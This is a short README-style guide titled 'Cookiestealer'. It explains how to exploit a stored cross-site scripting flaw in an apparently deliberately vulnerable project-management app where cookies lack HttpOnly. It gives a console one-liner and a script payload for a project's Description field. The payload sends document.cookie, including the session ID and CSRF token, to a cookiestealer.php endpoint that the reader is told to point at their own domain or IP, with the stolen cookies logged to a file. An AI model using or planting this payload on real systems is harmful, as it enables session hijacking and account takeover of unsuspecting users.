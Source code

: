 # Cookiestealer

Since `HttpOnly` is `false`, and XSS is enabled, it's possible to steal the cookies (and get access to `CSRFtoken` and `sessionID`) the following way:

## Test locally

If running locally, you can steal the cookies by running

```
document.location= "http://127.0.0.1:3000/cookiestealer.php?c=" + document.cookie
```

in the console in developer tools.

## Embed in XSS, execute remotely

Put the following in the `Description` field in a new project (perhaps also the `Description` field of the task?), replacing `http://127.0.0.1:3000` with your own domain or IP:

```
<script language="javascript"> document.location= "http://127.0.0.1:3000/cookistealer.php?c=" + document.cookie; </script>
```

The cookies will then be saved to `cookielog.txt`.

